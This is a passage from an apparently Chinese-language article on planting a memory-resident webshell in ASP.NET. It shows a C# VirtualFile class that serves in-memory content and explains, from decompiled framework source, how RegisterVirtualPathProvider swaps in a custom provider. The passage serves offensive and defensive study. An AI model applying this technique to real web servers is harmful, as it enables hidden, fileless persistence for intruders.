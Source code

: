 ```csharp

    public class SampleVirtualFile : System.Web.Hosting.VirtualFile
    {
        private string _fileContent;

        public bool Exists
        {
            get { return true; }
        }

        public SampleVirtualFile(string virtualPath, string fileContent)
            : base(virtualPath)
        {
            this._fileContent = fileContent;
        }

        public override System.IO.Stream Open()
        {
            System.IO.Stream stream = new System.IO.MemoryStream(System.Text.Encoding.UTF8.GetBytes(_fileContent));
            return stream;
        }
    }
```

### 注入内存马

根据官方文档，我们可以调用HostingEnvironment.RegisterVirtualPathProvider(Provider)来注入我们的虚拟文件系统。查看源码如下：

```csharp
public static void RegisterVirtualPathProvider(VirtualPathProvider virtualPathProvider)
{
    if (HostingEnvironment._theHostingEnvironment == null)
        throw new InvalidOperationException();
    if (BuildManager.IsPrecompiledApp)
        return;
    HostingEnvironment.RegisterVirtualPathProviderInternal(virtualPathProvider);
}
```

可以看到首先判断当前_theHostingEnvironment是否为空，这个对象的作用后面会讲到。

然后判断当前是否是一个预编译项目，如果是的话就退出，否则就调用一个internal方法RegisterVirtualPathProviderInternal。查看源码如下：

```csharp
internal static void RegisterVirtualPathProviderInternal(VirtualPathProvider virtualPathProvider)
{
    VirtualPathProvider virtualPathProvider1 = HostingEnvironment._theHostingEnvironment._virtualPathProvider;//获取原来的VPP对象
    HostingEnvironment._theHostingEnvironment._virtualPathProvider = virtualPathProvider;//把指针指向新注册的VPP对象
    virtualPathProvider.Initialize(virtualPathProvider1);//调用新注册VPP的Initialize
}

internal virtual void Initialize(VirtualPathProvider previous)
{
    this._previous = previous;//把原有的vpp设置为当前vpp的上一个节点
    this.Initialize();
}
```

